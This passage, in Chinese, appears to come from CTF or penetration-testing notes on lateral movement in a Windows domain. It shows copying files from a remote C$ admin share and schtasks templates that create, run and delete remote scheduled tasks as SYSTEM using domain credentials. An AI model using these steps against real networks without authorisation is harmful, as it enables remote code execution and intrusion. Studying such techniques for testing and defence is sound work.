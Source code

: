 ![](images/ctf-2021-09-27-15-30-48.png)

copy \\192.168.83.2\c$\xxx c:\ 下载文件到c盘
![](images/ctf-2021-09-27-15-30-53.png)

### 利用schtasks计划任务执行命令(不需要先创立ipc连接)

创建计划任务

```
schtasks /create /tn 任务名 /U 域\域用户 /P 域用户密码 /tr 执行的命令或bat路径 /sc ONSTART /s 域机子IP /RU system
```

执行计划任务

```
schtasks /run /tn 任务名 /s 域机子IP /U 域\域用户 /P 域用户密码
```

删除计划任务

```
schtasks /F /delete /tn 任务名 /s 域机子IP /U 域\域用户 /P 域用户密码
```

![](images/ctf-2021-09-27-15-28-18.png)

